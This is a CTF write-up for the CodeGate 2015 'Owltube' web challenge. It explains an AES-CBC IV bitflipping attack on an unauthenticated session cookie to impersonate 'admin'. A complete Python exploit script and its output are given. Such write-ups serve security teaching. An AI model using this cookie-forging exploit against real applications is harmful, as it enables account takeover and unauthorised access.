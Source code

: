 # CodeGate General CTF 2015: Owltube

**Category:** Web
**Points:** 400
**Description:** 

> You're welcome to betatest our new social media site, it's going to be the next big thing.
> 
> Server : http://54.64.164.100:5555/
> Script : [http://binary.grayhash.com/2a0182588cf5550cebb49876d94c7a2f/index.py](index.py)
> 
> - option : please check the notice board.

## Write-up

The challenge consists of a python Tornado web application using mongodb and allows users to register, login and add links to youtube videos.
User sessions are managed through an authentication cookie that is constructed as follows:

>```python
>def set_cookie(resp, cookie):
>	cookie = json.dumps(cookie)
>
>	iv = Random.new().read(BS)
>	aes = AES.new(SECRET_KEY, AES.MODE_CBC, iv)
>	cookie = pad(cookie)
>	cookie = iv + aes.encrypt(cookie)
>	cookie = cookie.encode("base64")
>	cookie = cookie.replace("\n", "")
>
>	resp.set_cookie("auth", cookie)
>```

The cookie value passed to set_cookie is set, upon successful login, to a json representation of the following dictionary:

>```python
>	u = {}
>	u["u"] = request.form.get("user")
>	u["pw"] = request.form.get("pw")
>```

The vulnerability here resides in the fact that the cookie is encrypted using AES in Cipher Block Chaining (CBC) mode. In CBC mode, each block of plaintext is XORed to the previous block of ciphertext before being encrypted, using a random IV for the first block of plaintext. Conversely, upon decryption, each block of ciphertext is decrypted and subsequently XORed to the previous block of ciphertext (or the IV in case of the first block) to yield the final decrypted block.

![alt cbc_decryption](cbc_decryption.png)

Since CBC mode comes with no authentication mechanism (eg. a MAC, signature, etc.) the application has no means to detect if the encrypted data it processes has been altered or not by a malicious client. This allows us to perform a bitflipping attack on our encrypted cookie. Flipping a byte in a ciphertext block will corrupt the corresponding decrypted block but produce a corresponding flip in the byte at the same block-offset within the subsequent block. Hence, given a known plaintext byte at offset i in the plaintext, we can alter the byte at offset i in the final decryption result by flipping byte (i-block_size) of the ciphertext (or byte i of the IV if i < block_size).

Since the decryption result must always be a valid json string, we cannot afford corrupting the ciphertext itself and hence are restricted to flipping the first 16 bytes of the plaintext by corrupting the IV only. We can set bytes at offsets 0..15 in the decryption result to our target text by corrupting the IV in the following manner:

>```python
>iv[i] = chr(ord(known_plaintext[i]) ^ ord(iv[i]) ^ ord(target_text[i]))
>```

This, of course, requires known plaintext for at least the first 16 bytes. If we register a user, we know the full plaintext of the cookie:

>```python
>{"u": "username", "pw": "password"}
>```

In the application source we can see the following code for the index:

>```python
>def index():
>	if is_logged_in():
>		videos = []
>		for i, vid in enumerate(g.db.videos.find({"user": g.user["u"]})):
>```

We will try to construct a cookie with a plaintext that allows us to achieve successful login as the user "admin" (which we guessed to be the target account for flag retrieval, since it was the only username always taken while the rest of the usernames were periodically wiped from the database). If we register a user with username "x" and password "admin", our known plaintext will be:

>```python
>{"u": "x", "pw": "admin"}
>```

We want to flip this to the following in order to eliminate the "pw" field so we can achieve successfull login:

>```python
>{"u":  "x", "u": "admin"}
>```


The [final exploit](solution/owltube_exploit.py) is as follows:

>```python
>#!/usr/bin/python
>#
># CODEGATE General CTF 2015
># OWLTUBE (WEB/400) Exploit
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>import requests
>from Crypto.Cipher import AES
>
>BS = AES.block_size
>
>class exploit:
>	def __init__(self):
>		self.r = None
>		self.cookies = None
>		return
>
>	def getAuthcookie(self):
>		if(self.cookies):
>			return self.cookies['auth']
>		else:
>			return None
>
>	def login(self, url, username, password):
>		payload = {'user': username, 'pw': password}
>		self.r = requests.post(url + '/login', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def register(self, url, username, password, email):
>		payload = {'user': username, 'pw': password, 'email': email}
>		self.r = requests.post(url + '/register', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def visit(self, url, authcookie):
>		cookie = {'auth': authcookie}
>		self.r = requests.get(url, cookies=cookie)
>		return (self.r.text, self.r.status_code)
>
>email = "x@x"
>username = "x"
>password = "admin"
>
>url = 'http://54.64.164.100:5555'
>
>sploit = exploit()
>
>sploit.register(url, username, password, email)
>sploit.login(url, username, password)
>
>cookie = sploit.getAuthcookie()
>(iv, e) = (cookie.decode('base64')[:BS], cookie.decode('base64')[BS:])
>
>print "[+]Cookie: [%s]" % cookie
>print "[+]IV: [%s]" % iv.encode('hex')
>print "[+]Ciphertext: [%s]" % e.encode('hex')
>
>plaintext = '{"u": "x", "pw": "admin"}'
>targetext = '{"u":  "x", "u": "admin"}'
>
>iv2 = list(iv)
>for i in range(0, 16):
>	iv2[i] = chr(ord(plaintext[i]) ^ ord(iv2[i]) ^ ord(targetext[i]))
>
>iv2 = "".join(iv2)
>
>cookie = (iv2 + e).encode("base64").replace("\n", "")
>
>(t, s) = sploit.visit(url, cookie)
>
>print t
>```

Which will yield the following result:

>```bash
>$ python owltube_exploit.py
>[+]Cookie: ["YOk8jak/YUSlKfeEYkJWfkqVJ0kui19L4OVjlO8buQAKYbVZT4dyIeiyKATU/BK8"]
>[+]IV: [60e93c8da93f6144a529f7846242567e]
>[+]Ciphertext: [4a9527492e8b5f4be0e56394ef1bb9000a61b5594f877221e8b22804d4fc12bc]
>```
>```html
><html>
><head>
>        <title>Owltube - index</title>
>        <link href="static/css/bootstrap.min.css" rel="stylesheet" media="screen">
>(...)
>
>               <span class="badge badge-important">1</span><span class="btn btn-link" onclick="play('the_owls_are_watching_again')">THIS IS THE KEY</span></br></br>
>(...)
>```

Giving the flag: 

>the_owls_are_watching_again